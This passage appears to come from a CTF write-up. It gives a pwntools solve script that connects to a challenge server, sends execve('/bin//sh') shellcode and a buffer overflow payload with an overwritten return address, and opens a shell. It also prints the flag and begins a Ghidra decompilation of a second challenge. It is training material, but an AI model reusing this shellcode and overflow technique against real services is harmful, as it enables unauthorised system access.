 Solve script:

```py
from pwn import *

r = remote('chal1.lagncra.sh',  8405)

r.recvuntil(b'>> ')
shellcode = b'\x6a\x42\x58\xfe\xc4\x48\x99\x52\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5e\x49\x89\xd0\x49\x89\xd2\x0f\x05'
r.sendline(shellcode)
r.recvuntil(b'>> ')

shellz = p64(0x0000000000401166)

offset = 264
payload = b'A' * offset + shellz

r.sendline(payload)
r.interactive()
```

Flag: `LNC24{C0MPU73R_G0_brRrRRrRRRRRRrrRrRRRrRrRrRRrRRrRRRRRrRrR}`

-----

## CtfChallengeHub

![image](https://github.com/jeromepalayoor/ctf-writeups/assets/63996033/b0c9938f-a678-4e9b-9499-cdd226cce8c2)

Since source code was not given, I used ghidra to disassemble to get the code:

```c
void pwnchall(void)
{
  sleep(1);
  puts("Error. File pwn_chall.exe was not found.");
  return;
}

void forenchall(void)
{
  sleep(1);
  puts("Error. File memdump.bin was not found.");
  return;
}

void miscchall(void)
{
  undefined8 local_78;
  undefined8 local_70;
  undefined8 local_68;
  undefined8 local_60;
  undefined8 local_58;
  undefined8 local_50;
  undefined8 local_48;
  undefined8 local_40;
  undefined8 local_38;
  undefined8 local_30;
  undefined8 local_28;
  undefined8 local_20;
  undefined4 local_18;
  
  local_78 = 0;
  local_70 = 0;
```
